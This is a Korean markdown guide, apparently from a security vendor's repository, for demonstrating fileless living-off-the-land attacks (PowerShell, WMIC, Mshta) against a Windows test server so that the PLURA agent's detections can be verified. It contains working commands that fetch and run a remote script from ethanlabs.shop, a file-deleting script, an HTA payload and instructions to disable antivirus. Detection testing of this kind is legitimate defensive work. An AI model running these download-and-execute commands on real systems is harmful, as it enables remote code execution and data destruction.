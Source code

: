 # 테스트 환경 구축

1. **공격 서버**
   - 웹 서버가 구축되어 있어야 합니다.
   
2. **MALSCRIPT**
   - 공격 서버의 웹루트 디렉터리 내에 위치해야 합니다. (`/var/www/html/`)
   - 침투한 파일은 웹 요청 본문으로 전달하여 웹셸(Web Shell)로 바꿀 수 있습니다.

3. **MALSCRIPT 공격문의 경로**
   - 피해 서버에서 삭제할 파일의 경로를 입력해야 합니다.

4. **피해 서버**
   - PLURA 에이전트가 설치되어 있어야 합니다.
   - 삭제할 파일 (`C:\Program Files\important-file.txt`)이 존재해야 합니다.
   - ※ 해당 경로에 파일이 존재하지 않을 경우, 공격 성공 여부를 확인할 수 없습니다.

5. **운영 환경**
   - 피해 서버는 Windows 서버로 구성해야 합니다.
   - Windows 실시간 보호 및 V3와 같은 백신 프로그램은 중지해야 합니다.

6. **명령 실행**
   - 피해 서버에서 `cmd` 또는 `PowerShell`을 관리자 권한으로 실행하여 명령문을 수행합니다.

---

# LOL 공격 및 파일리스 공격이란

### LOL (Living Off the Land) 공격
- 시스템에 설치된 합법적인 바이너리, DLL 등의 도구를 이용하여 공격하는 방식.

### 파일리스(Fileless) 공격
- 공격 파일이 피해 서버의 디스크에 저장되지 않고, 메모리에서 직접 실행되는 공격 기법.

다음은 LOL을 활용한 파일리스 공격 방법입니다. 해당 공격 수행 후 PLURA에서 탐지 내역을 확인할 수 있습니다.

---

# 공격 시연 방법

우선 침투한 파일은 웹 요청 본문으로 전달하여 웹셸(Web Shell)로 바꿀 수 있습니다. 이 공격 기법은 웹 서버를 통한 추가적인 악성 행위 수행에 활용될 수 있습니다.

👉 [자세히](webshell_attack_steps.md)

## PowerShell (T1059.001)
- **PowerShell을 사용하여 파일리스 공격 수행**
- **스크립트:** `MALSCRIPT.ps1`

```powershell
Remove-Item '<피해 서버에서 삭제할 파일의 경로>'

# 예시
Remove-Item 'C:\Program Files\important-file.txt'
```

### 명령문
- `cmd`, `PowerShell` 모두 사용 가능:
```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://ethanlabs.shop/MALSCRIPT.ps1')"
```

- **공격 성공 시:** 피해 서버의 파일이 삭제되며, PLURA에서 탐지 내역 확인 가능.

---

## Windows Management Instrumentation (T1047)
- **WMIC를 사용하여 원격 명령 실행**
- **스크립트:** `MALSCRIPT.ps1`

```powershell
Remove-Item '<피해 서버에서 삭제할 파일의 경로>'

# 예시
Remove-Item 'C:\Program Files\important-file.txt'
```

### 명령문
- `cmd`에서 수행:
```cmd
wmic process call create "powershell -NoProfile -ExecutionPolicy Bypass -Command \"IEX (New-Object Net.WebClient).DownloadString('http://ethanlabs.shop/MALSCRIPT.ps1')\""
```

- **공격 성공 시:** 피해 서버의 파일이 삭제되며, PLURA에서 탐지 내역 확인 가능.

---

## Mshta (T1218.005)
- **Mshta를 사용하여 악성 HTA 파일 실행**
- **스크립트:** `MALSCRIPT.hta`

```html
<html>
<head>
    <title>Malicious HTA</title>
    <hta:application id="oHTA"
        border="thin"
        borderstyle="normal"
        caption="yes"
        contextmenu="no"
        innerborder="no"
        maximizebutton="no"
        minimizebutton="no"
        navigable="yes"
        scroll="no"
        scrollflat="no"
        selection="yes"
        showintaskbar="yes"
        singleinstance="yes"
        sysmenu="yes"
        version="1.0"
        windowstate="normal">
    </hta:application>
    <script language="JScript">
        var shell = new ActiveXObject("WScript.Shell");
        shell.Run("calc.exe");
    </script>
</head>
<body>
    <h1>Malicious HTA</h1>
</body>
</html>
```

### 명령문
- `cmd`, `PowerShell` 모두 사용 가능:
```cmd
mshta http://ethanlabs.shop/MALSCRIPT.hta
```

- **공격 성공 시:** 피해 서버에서 "Malicious HTA" 창과 계산기가 실행되며, PLURA에서 탐지 내역 확인 가능.

---

# 주의사항
- **PowerShell, WMIC, Mshta**는 Windows 내 강력한 스크립트 실행 도구로 파일리스 공격을 수행하는 데 자주 사용됩니다.
- 공격자는 디스크에 파일을 저장하지 않고 메모리 내에서 바로 실행하여 탐지 회피를 시도합니다.
- 위 과정을 통해 PLURA의 탐지 기능과 보안 로그를 확인하세요.

---

# 공격 개요 (Mermaid Diagram)

```mermaid
graph TD
    A[공격 서버] -->|MALSCRIPT 전달| B[피해 서버]
    B -->|PowerShell 실행| C[파일 삭제 수행]
    B -->|WMIC 실행| D[명령 수행]
    B -->|Mshta 실행| E[HTA 파일 실행]
    C -->|결과 확인| F[PLURA 탐지 내역]
    D -->|결과 확인| F[PLURA 탐지 내역]
    E -->|결과 확인| F[PLURA 탐지 내역]
```
